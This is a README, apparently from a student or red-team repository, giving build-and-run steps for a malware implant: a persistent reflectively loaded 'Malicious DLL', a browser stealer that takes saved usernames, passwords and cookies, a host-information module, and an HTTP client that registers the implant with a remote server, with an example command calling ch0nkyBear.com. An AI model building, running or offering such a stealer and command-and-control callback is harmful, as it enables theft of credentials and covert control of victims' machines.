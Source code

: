 # README

## To Compile the Malicious DLL

* Go to: reflectivedll> realDLL folder
* Run make to compile the DLL
* In the Command line, run .\testmDll.exe maliciousdll.dll

![image](https://user-images.githubusercontent.com/42654496/146640361-6be06d31-90d5-4da0-8365-c3cb9340e07a.png)

* The Malicious DLL currently checks for the Chonky.txt file and is Persistent.
* It does NOT currently include the communicationfuncs.cpp and .h files because it would cause errors

## To display Browser Information - Stealer Functionality

* Go to: reflectivedll> realDLL folder
* Run make and then make run

![image](https://user-images.githubusercontent.com/42654496/146636733-2d760b85-ad8d-410a-9b82-33b12e30980f.png)

* Steals Login Data(username and password) and Cookies from the system and displays to console

![image](https://user-images.githubusercontent.com/42654496/146636649-532a38a9-7822-4afa-bade-81098a8bed3b.png)

## To get Situational Awareness info

* Go to: reflectivedll> TestingFeatures> getInfo folder
* Run make to build the infoTest executable
* In the command line, run .\infoTest.exe 

* This executable will print out the data of the current machine
* It is currently not a feature of the dll

## To make an HTTP Request to the Server

* Go to: reflectivedll> TestingFeatures > http folder
* Run make to build the http executable
* In the command line, run .\http.exe fqdn port uri useTLS payload payloadLength
* The payload should be a hex string that (before converted to hex), is in the format "guid=implantTest&username=TestUser&=computername=TestComputer\r\n"
* EX: .\http.exe ch0nkyBear.com 443 /register 1 "23478y9hfj874" 13

* Currently: Issues handling payloads on the server side
* testInfo.cpp is a file that includes example hex encoded payloads to try out
